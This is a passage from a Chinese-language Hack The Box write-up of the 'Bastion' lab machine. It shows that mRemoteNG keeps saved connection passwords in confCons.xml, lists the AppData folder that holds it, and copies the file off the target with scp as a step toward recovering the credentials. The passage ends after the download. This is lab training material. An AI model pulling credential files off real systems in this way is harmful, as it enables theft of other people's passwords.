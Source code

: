```
```

**mRemoteNG**是一种远程连接管理工具，它允许用户保存各种类型连接的密码。用户的 AppData 目录中有一个文件，用于保存该信息：`confCons.xml`

```
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir                                                                    
...                                                                       
22-02-2019  15:03    <DIR>          .                                                                                           
22-02-2019  15:03    <DIR>          ..                                                                                          
22-02-2019  15:03             6.316 confCons.xml                                                                                
22-02-2019  15:02             6.194 confCons.xml.20190222-1402277353.backup                                                     
22-02-2019  15:02             6.206 confCons.xml.20190222-1402339071.backup                                                     
22-02-2019  15:02             6.218 confCons.xml.20190222-1402379227.backup                                                     
22-02-2019  15:02             6.231 confCons.xml.20190222-1403070644.backup                                                     
22-02-2019  15:03             6.319 confCons.xml.20190222-1403100488.backup                                                     
22-02-2019  15:03             6.318 confCons.xml.20190222-1403220026.backup                                                     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403261268.backup                                                     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403272831.backup                                                     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403433299.backup                                                     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403486580.backup                                                     
22-02-2019  15:03                51 extApps.xml                                                                                 
22-02-2019  15:03             5.217 mRemoteNG.log                                                                               
22-02-2019  15:03             2.245 pnlLayout.xml                                                                               
22-02-2019  15:01    <DIR>          Themes                                                                                      
...
```

因为靶机安装了ssh，所以我们可以用scp命令把文件从靶机下载到kali

```
┌──(root kali)-[~/htb/Bastion]
└─# scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .                                                                                                                                                      1 ⨯
l4mpje@10.10.10.134's password: 
confCons.xml
```
